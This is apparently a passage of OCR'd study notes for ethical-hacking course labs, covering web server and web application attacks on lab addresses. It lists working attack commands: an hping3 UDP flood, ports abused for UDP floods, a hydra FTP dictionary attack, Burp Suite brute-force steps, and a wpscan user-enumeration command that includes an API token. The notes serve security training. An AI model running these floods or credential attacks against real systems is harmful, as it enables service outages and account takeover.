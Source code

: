 - **-S: Set the SYN flag** 
- **Attacker (Perform UDP application layer flood attack)** 
- nmap -p 139 10.10.10.19 (check service) 
- **hping3 -2 -p 139 –flood [IP]** 
- **-2: Specify UDP mode** 
- **Other UDP-based applications and their ports** 
- CharGen UDP Port 19 
- SNMPv2 UDP Port 161 
- QOTD UDP Port 17 
- RPC UDP Port 135 
- SSDP UDP Port 1900 
- CLDAP UDP Port 389 
- TFTP UDP Port 69 
- NetBIOS UDP Port 137,138,139 
- NTP UDP Port 123 
- Quake Network Protocol UDP Port 26000 
- VoIP UDP Port 5060 

**Module 13: Hacking Web Servers** 

**Lab2-Task1: Crack FTP Credentials using a Dictionary Attack** 

- nmap -p 21 [IP] 
- **hydra -L usernames.txt -P passwords.txt ftp://10.10.10.10** 

**Module 14: Hacking Web Applications** 

**Lab2-Task1: Perform a Brute-force Attack using Burp Suite** 

- Set proxy for browser: 127.0.0.1:8080 
- Burpsuite 
- Type random credentials 
- capture the request, right click-&gt;send to Intrucder 
- Intruder-&gt;Positions 
- Clear $ 
- Attack type: Cluster bomb 
- select account and password value, Add $ 
- Payloads: Load wordlist file for set 1 and set 2 
- start attack 
- **filter status==302** 
- open the raw, get the credentials 
- recover proxy settings 

**Lab2-Task3: Exploit Parameter Tampering and XSS Vulnerabilities in Web Applications** 

- Log in a website, change the parameter value (id )in the URL 
- Conduct a XSS attack: Submit script codes via text area 

**Lab2-Task5: Enumerate and Hack a Web Application using WPScan and Metasploit** 



|• |**wpscan --api-token** |
| - | - |
||**hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads --**|
||**url** **http://10.10.10.16:8080/CEH** **--plugins-detection aggressive --**|
||**enumerate u** |
||o  **--enumerate u: Specify the enumeration of users** |
